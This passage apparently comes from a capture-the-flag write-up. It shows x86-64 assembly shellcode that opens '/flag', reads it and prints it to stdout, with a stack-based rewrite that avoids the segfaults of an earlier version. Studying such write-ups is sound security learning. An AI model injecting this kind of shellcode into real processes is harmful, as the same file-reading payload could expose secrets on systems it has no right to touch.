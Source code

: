 ```Assembly
    mov rax, 1          ; rax for sys_write
    syscall

    ; Exit the program gracefully
    mov rax, 60         ; System call number for sys_exit
    syscall             ; Call upon the kernel

    file db '/flag', 0  ; The file name '/flag' null-terminated
    buffer times 1024 db 0  ; Our data buffer initialized with zeros
    fd dq 0             ; File Descriptor initialized to 0
```

This code did work when executed directly, but when trying to extract its essence for shellcode,
it crumbled into a chaos of segmentation faults and mysteries.

#### The Revelation - Stack Tricks and Register Wizardry

In the dark of night, a revelation struck. We realized that we must employ dark arts: stack tricks and register wizardry.
Variables, once our trusted allies, became liabilities.

Behold, the final iteration:

```Assembly
section .text
global _start

_start:
    mov dword [rsp], '/fla'  ; Place the file pathname on the stack
    push 'g'                 ; Push 'g' onto the stack
    pop rcx                   ; Pop 'g' into rcx
    mov [rsp + 4], ecx       ; Store 'g' after '/fla'

    ; Opening a file and binding it with an FD
    lea rdi, [rsp]           ; Load effective address of the stack
    xor rsi, rsi             ; Clear rsi (opening flags not required) O_RDONLY
    mov rax, 2               ; rax for sys_open
    syscall

    mov rbx, rax             ; Store FD in rbx

    ; Reading from the opened file
    lea rsi, [rsp]           ; rsi points to our buffer
    mov rdi, rbx             ; rdi receives the FD
    mov rdx, 100             ; rdx defines the maximum bytes to read
    mov rax, 0               ; rax for sys_read
    syscall

    ; Writing to stdout    
    lea rsi, [rsp]           ; rsi points to the buffer
    mov rdi, 1               ; rdi represents stdout (File Descriptor 1)
    mov rdx, rax             ; rdx gets the number of bytes read
    mov rax, 1               ; rax for sys_write
    syscall

    ; Exit the shellcode
    mov rax, 60              ; System call number for sys_exit
    xor rdi, rdi             ; Clear rdi (exit status 0)
    syscall                  ; Call upon the kernel
```
